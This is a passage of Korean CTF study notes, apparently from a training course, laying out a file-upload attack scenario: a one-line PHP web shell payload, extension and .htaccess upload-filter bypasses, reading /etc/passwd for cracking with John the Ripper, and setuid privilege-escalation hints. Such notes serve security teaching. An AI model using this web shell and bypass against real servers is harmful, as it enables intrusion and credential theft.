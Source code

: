 # CTF

25-4 CTF 개념 정리 - 시나리오

## 시나리오 1번

모 서버 장악 후, 내부에 저장된 정보 확인.

**힌트**
```
1. 업로드 경로 확인
 - 임의의 파일 업로드 해보기

2. 웹 쉘 업로드 후 소스코드
   <?php system($_GET['cmd']); ?>

   Day2 파일 업로드 취약점 실습 내용
       - 1) 확장자를 우회) php -> phar, phtml 등등
       - 2) .htaccess(아파치 서버 설정 파일) 업로드 후 확장자 저장 설정 변경
             AddType application/x-httpd-php .abc .txt .xyz 등
       - vi .htaccess (.으로 시작되는 파일은 기본적으로 숨김처리 되어있음.
         view - show hidden files 체크 혹은 ls -al

3. 웹 쉘 업로드 성공 후 시스템 명령어로 flag 확인 (cat flag.php X, flag가 들어간 파일)
  - find / -name "flag*"

4.  /etc/passwd 파일
  - john the reaper (패스워드 크랙 툴)로 패스워드 알아내보기 : 크랙 하고자하는 문자열을 vi로 텍스트 파일로 저장.
  - john 파일명
리눅스 : /etc/passwd : 사용자 패스워드 정보를 가지고 있음.

5. setuid가 적용된 파일 찾기 : 인터넷 검색 활용
  - ssh 접속 명령어 : ssh id@ip

```

**kali linux 프록시 설정 끄는 법**

1. Web Browser
2. 우측 상단 햄버거 기호 클릭
3. Preferences
4. Proxy 검색
5. settings No Proxy로 바꾼 후 접속

**시나리오 흐름도**

1. 파일 업로드 기능 확인
2. 확장자 우회
3. 서버 장악
4. 계정 탈취
5. 공격 벡터 확인
6. 권한 상승
7. 정보 수집

### 1) 업로드가 가능한 경로


